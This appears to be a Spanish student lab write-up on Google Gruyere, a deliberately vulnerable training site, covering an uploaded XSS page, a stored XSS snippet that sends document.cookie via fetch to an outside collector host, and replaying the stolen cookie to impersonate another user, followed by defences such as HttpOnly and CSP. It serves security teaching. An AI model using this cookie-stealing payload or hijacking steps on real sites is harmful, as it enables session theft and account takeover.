


# Práctica googlegruyere - Inyección XSS y robo de coockies
# Ismael Ruiz

Lo primero que haremos será acceder al servicio web de google gruyere y crearemos una cuenta de usuario (**IMPORTANTE**, se creará una instancia con el usuario que especifiquemos, nos indican que este servicio es para aprender y que nunca usemos credenciales que tengamos en otros servicios)

https://google-gruyere.appspot.com/354753043810898637755265328400260091691/saveprofile?action=new&uid=pepe&pw=pepe1234&is_author=True

Podemos observar en en la propia url, al momento de registrarnos, cuando envían los datos al backend se visualiza perfectamente el nombre de usuario junto su contraseña, un grave problema de seguridad.

## Vamos con la inyección XSS

Una inyección XSS (Cross-Site Scripting) es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante inyectar código malicioso (generalmente con JavaScript) en páginas vistas por otros usuarios.

Vamos a crear nuestra propia inyección

```html
<!DOCTYPE html>
<html>
<head>
    <title>Inyeccion XSS</title>
</head>
<body> 
    <script>
        alert("Efectivamente, estás jodido");
    </script>
</body>
</html>
```

Seguidamnete vamos a la pestaña "Upload" y subimos nuesto html

Una vez hecho, nos dará la url de nuestra subida:
https://google-gruyere.appspot.com/354753043810898637755265328400260091691/pepe/gruyere.html 



## Robo de coockies con snippets

En Google Gruyere, los snippets son pequeños bloques de texto o código HTML que los usuarios pueden crear y compartir dentro de la aplicación. Son una funcionalidad central del sitio, y simulan contenido generado por el usuario, como publicaciones, comentarios o notas, que luego son renderizadas en la web.

Nos vamos a "New Snippet" y lo creamos con el siguiente contenido:

```html
<div onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + document.cookie)">50 eurillos gratis</div>
```

- ```<div>```: Muestra un bloque de contenido en la página con el texto "50 eurillos gratis".

- onmouseover: Es un evento HTML que se activa cuando el usuario pasa el ratón por encima del div.

- fetch(...): Es una llamada JavaScript que envía una petición HTTP al servidor del atacante.

- document.cookie: Es el contenido de las cookies del usuario actual (potencialmente sensible).

- https://datagrabber.onrender.com/grab?data=...: Es la URL a la que se envían esas cookies.

Una vez subido el snippet, podemos comprobar que al pasar el ratón por encima hemos obtenido las coockies (F12 > Network)



Seguidamente nos desloguearemos, y borraremos las coockies que teniamos previamente para evitar conflictos (F12 > Storage > Coockies > Click derecho > Delete All Session Coockies)

Ahora procederemos a crear las coockies para suplantar la identidad de pepe, creamos la variable ```GRUYERE``` con el valor de la coockie de pepe ```51292534|pepe|author``` y la variable ```GRUYERE_ID``` con el valor ```354753043810898637755265328400260091691``` una vez realizado este procedimiento, al recagar la página deberíamos estar logeados como pepe.

## Conclusión

Es tan sencillo robar hacer inyecciones XSS y robar coockies ya que es una práctica para principiantes, en el mundo real, por lo general, se suelen implementar varias medidas de seguridad:

- **HttpOnly**: Impide que JavaScript vea la cookie
- **Secure**: Obliga a usar HTTPS para que no se filtre
- **SameSite**: Bloquea que se envíe en peticiones externas
- **Sanitización**: Elimina `<script>` y atributos peligrosos
- **CSP (Content Security Policy)**: Bloquea JavaScript no autorizado

Aunque sea algo sencillito, es bastante interactivo e interesante aprender cómo funcionan el manejo y robo de coockies del que tanto se habla estos dias.